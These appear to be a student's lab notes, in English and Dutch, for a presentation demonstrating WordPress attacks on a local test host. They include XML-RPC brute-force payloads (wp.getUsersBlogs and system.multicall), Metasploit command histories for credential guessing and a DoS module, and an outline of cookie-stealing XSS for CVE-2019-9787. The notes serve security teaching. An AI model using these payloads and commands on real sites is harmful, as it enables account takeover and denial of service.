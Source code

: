 **Current choice**

Remote code execution on wordpress 2019 https://www.cvedetails.com/cve/CVE-2019-9787/ - SCORE 6.8 - COMPLEXITY: medium

    WordPress before 5.1.1 does not properly filter comment content, leading to Remote Code Execution by unauthenticated users in a default configuration. This occurs because CSRF protection is mishandled, and because Search Engine Optimization of A elements is performed incorrectly, leading to XSS. The XSS results in administrative access, which allows arbitrary changes to .php files. This is related to wp-admin/includes/ajax-actions.php and wp-includes/comment.php.

Needs wordpress before 5.1.1 https://wordpress.org/download/releases/#branch-50  
Use the 5.0.0 version

Host wordpress website, 
wordpress needs sql server
Create XSS javascript code that steals the cookie
Make admin look at comment
Inject cookie into server

https://www.youtube.com/watch?v=BfKK-pNmI6Y



**EXTRA** 

Wordpress bruteforce and ddos vulnerability 
/xmlrpc.php attack

        POST /xmlrpc.php HTTP/1.1
        Host: localhost
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Sec-Fetch-Site: none
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Accept-Encoding: gzip, deflate
        Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
        Connection: close
        Content-Length: 85


        PAYLOAD 2: 

        <methodCall><methodName>system.listMethods</methodName><params></params></methodCall>

        POST /xmlrpc.php HTTP/1.1
        Host: localhost
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Sec-Fetch-Site: none
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Accept-Encoding: gzip, deflate
        Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
        Connection: close
        Content-Length: 164

        <methodCall>
        <methodName>wp.getUsersBlogs</methodName>
        <params>
        <param><value>admin</value></param>
        <param><value>pass</value></param>
        </params>
        </methodCall>



MULTICALL om meerdere tegelijkertijd te proberen , ookal showed het dan maar op als 1 try voor wordpress zelf
        
        <methodCall>
        <methodName>system.multicall</methodName>
        <params>
            <param>
            <value>
                <array>
                <data>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password1</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password2</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                </data>
                </array>
            </value>
            </param>
        </params>
        </methodCall>


https://www.cvedetails.com/cve/CVE-2020-28035/
https://www.cvedetails.com/cve/CVE-2020-28036/
https://www.youtube.com/watch?v=bZQ6vuFioZQ

Via xmlrpc can you proberen inloggen en meerdere passwords en logins proberen tegelijkertijd. 





Metsploit framework,
launch het metasploit framework en kies dan de juiste 2 modules

1   search wordpress_xmlrpx_login
2   search wordpress_xmlrpc_login
3   use auxiliary/scanner/http/wordpress_xmlrpc_login
4   search wordpress_xmlrpc_login
5   use auxiliary/scanner/http/wordpress_xmlrpc_login
6   set RHOSTS 192.168.1.60
7   set USER_FILE /home/osboxes/rcp.txt
8   set PASS_FILE /home/osboxes/rcpp.txt
9   run
10  exit
11  search cve:wp AND 5.0.0
12  search
13  search cve
14  clear
15  search
16  clear
17  search wordpress
18  use auxiliary/dos/http/wordpress_xmlrpc_dos
19  set RHOSTS 192.168.1.60
20  sset RPORT 80
21  set RPORT 80
22  run
23  set RLIMIT 10000000
24  run
25  use auxiliary/dos/http/wordpress_xmlrpc_dos
26  set RHOSTS 192.168.1.60
27  set RLIMIT 10000000
28  set RPORT 80
29  run
30  use auxiliary/dos/http/wordpress_xmlrpc_dos
31  set RHOSTS 192.168.1.60
32  set RPORT 80
33  set RLIMIT 10000000
34  set THREADS 3
35  ?
36  show options
37  exit
38  history



Gebruikt `top` op de target server voor cpu usage te zien bij DOS attack  



Formulier 

        CVE-2020-28035 https://www.cvedetails.com/cve/CVE-2020-28035/

        Wordpress  voor de versie 5.5.2 maakt gebruik van XML-RPC, wat een potentieel beveiligingsrisico met zich meebrengt. Door een grote hoeveelheid HTTP-verzoeken naar de XML-RPC-endpoint te sturen, kunnen aanvallers een denial-of-service-aanval (DOS) uitvoeren.

        Bovendien kan deze methode door aanvallers worden gebruikt om op een minder opvallende manier gebruikersnamen en wachtwoorden te achterhalen. Door honderden pogingen in één enkel XML-RPC-verzoek te verbergen, kan een aanvaller brute force-aanvallen uitvoeren om toegang te krijgen tot beveiligde gegevens.

        In onze presentatie zullen we beide kwetsbaarheden demonstreren: de DOS-aanval en de gain privileges aanval.